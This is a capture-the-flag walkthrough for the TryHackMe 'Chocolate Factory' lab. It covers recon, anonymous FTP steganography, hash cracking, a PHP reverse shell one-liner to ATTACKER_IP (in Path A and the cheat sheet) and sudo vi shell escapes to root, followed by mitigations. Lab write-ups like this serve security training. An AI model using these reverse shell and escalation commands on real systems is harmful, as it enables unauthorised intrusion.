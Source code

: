 # Chocolate Factory — Consolidated Walkthrough

> **Difficulty:** Easy &nbsp;|&nbsp; Linux / Web / Privilege Escalation  
> **Goal:** Capture the `user` and `root` flags on the TryHackMe *Chocolate Factory* machine.

---

> **Summary:**  
> Enumerate services → discover FTP image (steganography) or web injection → recover credentials → obtain shell as `www-data` or SSH as `charlie` → escalate to `root` via misconfigured `sudo` (e.g., `vi`). This guide merges multiple community writeups into a single, streamlined path with copy-paste commands.  
> [Hacking Writeups][1]

---

## Table of Contents

1. [Overview](#overview)
2. [Tools & Prereqs](#tools--prereqs)
3. [High-level Attack Flow](#high-level-attack-flow)
4. [Step-by-step Walkthrough](#step-by-step-walkthrough)
    - [Recon](#recon)
    - [Path A — Web Shell via `home.php`](#path-a---web-shell-via-homephp)
    - [Path B — Stego via FTP Image](#path-b---stego-via-ftp-image)
    - [Privilege Escalation (vi → root)](#privilege-escalation-vi--root)
5. [Cheat Sheet — Commands](#cheat-sheet---commands)
6. [Defensive Notes & Mitigations](#defensive-notes--mitigations)
7. [References](#references)

---

## Overview

Chocolate Factory is a beginner-friendly box focusing on OSINT/enumeration, web exploitation, steganography, and privilege escalation via misconfigured `sudo`. Two main routes:  
- **A:** Abuse input on `home.php` for a PHP reverse shell (`www-data`).  
- **B:** Retrieve FTP image, extract embedded data, crack password, web login, and shell.  
Both paths lead to `charlie`’s credentials and root escalation.  
[Hacking Writeups][1]

---

## Tools & Prereqs

- **Attacker VM:** Kali / Parrot / any Linux
- **Tools:**  
  `nmap`, `gobuster`, `ftp`, `steghide`, `strings`, `base64`, `hashcat`/`john`, `nc`, `ssh`
- **Wordlists:**  
  `rockyou.txt` (for password cracking)

---

## High-level Attack Flow

1. **Enumerate:** `nmap` for open ports (FTP, HTTP, SSH)
2. **Web Recon:** `gobuster` for hidden files (`home.php`)
3. **Exploit:** Command injection or web login (after password crack) → reverse shell
4. **Loot:** Extract SSH key/password, SSH as `charlie`
5. **Escalate:** `sudo -l` → abuse `vi` for root shell

---

## Step-by-step Walkthrough

### Recon

```bash
nmap -sC -sV -p- -oA chocolate_nmap <TARGET_IP>
```
- Look for:  
  - `21/tcp` — FTP (anonymous access)  
  - `80/tcp` — Web server  
  - `22/tcp` — SSH

```bash
gobuster dir -u http://<TARGET_IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 40 -o gobuster.log
```
- Commonly reveals `home.php` or similar.

---

### Path A — Web Shell via `home.php`

1. **Browse:** `http://<TARGET_IP>/home.php`
2. **Inject:** If input is vulnerable, spawn PHP reverse shell:

    ```bash
    # Attacker: start listener
    nc -lvnp 4444

    # Web input (as command)
    php -r '$sock=fsockopen("ATTACKER_IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
    ```

3. **Shell:** You get `www-data`. Enumerate:

    ```sh
    id
    ls -la
    cat /etc/passwd | grep charlie
    ```

4. **Loot:** Find `key_rev_key` binary, extract key:

    ```bash
    strings key_rev_key | less
    # or run interactively
    ./key_rev_key
    ```

5. **SSH:** Use extracted key/password:

    ```bash
    chmod 600 teleport
    ssh charlie@<TARGET_IP> -i teleport
    ```

---

### Path B — Stego via FTP Image

1. **FTP:** Connect and download image:

    ```bash
    ftp <TARGET_IP>
    # login: anonymous
    get gum_room.jpg
    ```

2. **Stego:** Extract embedded file:

    ```bash
    steghide extract -sf gum_room.jpg
    # (press Enter if passphrase is blank)
    ```

3. **Decode:** Base64 decode extracted file:

    ```bash
    cat b64.txt | base64 -d > hash.txt
    ```

4. **Crack:** Use `hashcat` or `john`:

    ```bash
    hashcat -m 1800 hash.txt /usr/share/wordlists/rockyou.txt
    # OR
    john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
    ```

5. **Web Login:** Use cracked credentials, find shell or SSH key, proceed as above.

---

### Privilege Escalation (vi → root)

1. **Check sudo:**

    ```bash
    sudo -l
    ```

2. **Exploit:** If `vi` allowed:

    ```bash
    sudo vi -c ':!/bin/sh' /dev/null
    # or
    sudo vi -c ':set shell=/bin/sh' -c ':shell' /dev/null
    ```

3. **Root:** Read flag:

    ```bash
    whoami
    cat /root/root.txt
    ```

---

## Cheat Sheet — Commands

```bash
# Recon
nmap -sC -sV -p- -oA chocolate_nmap <TARGET_IP>
gobuster dir -u http://<TARGET_IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 40 -o gobuster.log

# FTP
ftp <TARGET_IP>
get gum_room.jpg

# Stego
steghide extract -sf gum_room.jpg
cat b64.txt | base64 -d > hash.txt

# Crack hash
hashcat -m 1800 hash.txt /usr/share/wordlists/rockyou.txt

# Web shell
nc -lvnp 4444
php -r '$sock=fsockopen("ATTACKER_IP",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

# SSH key
strings key_rev_key | less
chmod 600 teleport
ssh charlie@<TARGET_IP> -i teleport

# Privilege escalation
sudo -l
sudo vi -c ':!/bin/sh' /dev/null
cat /root/root.txt
```

---

## Defensive Notes & Mitigations

- **Disable anonymous FTP** or restrict content.
- **Sanitize web inputs**; never execute user-supplied data.
- **Limit sudo privileges:** Avoid `NOPASSWD` for editors or command-line tools.
- **Monitor for stego/hidden files** on public services.
- **Alerting:** Watch for unusual web input, sudo usage, or new SUID files.

---

## References

- [1]: https://github.com/0x4D31/writeups/tree/main/tryhackme/chocolate-factory
- [2]: https://github.com/GTFObins/GTFOBins
